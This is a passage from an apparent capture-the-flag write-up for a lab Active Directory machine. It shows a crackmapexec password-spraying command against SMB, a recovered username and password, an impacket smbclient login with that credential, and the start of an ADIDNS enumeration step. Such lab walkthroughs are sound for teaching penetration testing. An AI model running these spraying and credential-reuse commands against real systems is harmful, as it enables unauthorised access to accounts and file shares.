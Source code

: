 
```text
NewIntelligenceCorpUser9876
```

reuse `crackmapexec` to perform usernamespraying on smb service

```bash
crackmapexec smb 10.10.10.248 -u pdf/users.txt -p 'NewIntelligenceCorpUser9876'
```

![](/assets/img/intelligence/8.png)

it can be seen that we find a suitable username and password

```text
Tiffany.Molina:NewIntelligenceCorpUser9876
```

use `smbclient.py` from impacket to interact with share

```bash
smbclient.py Tiffany.Molina:NewIntelligenceCorpUser9876@10.10.10.248
```

from here we can collect user.txt

![](/assets/img/intelligence/9.png)


## Active Directory Integrated DNS (ADIDNS)

enumeration on `IT shares$` and find the `downdetector.ps1`, download this file into host for analyzing the source code.
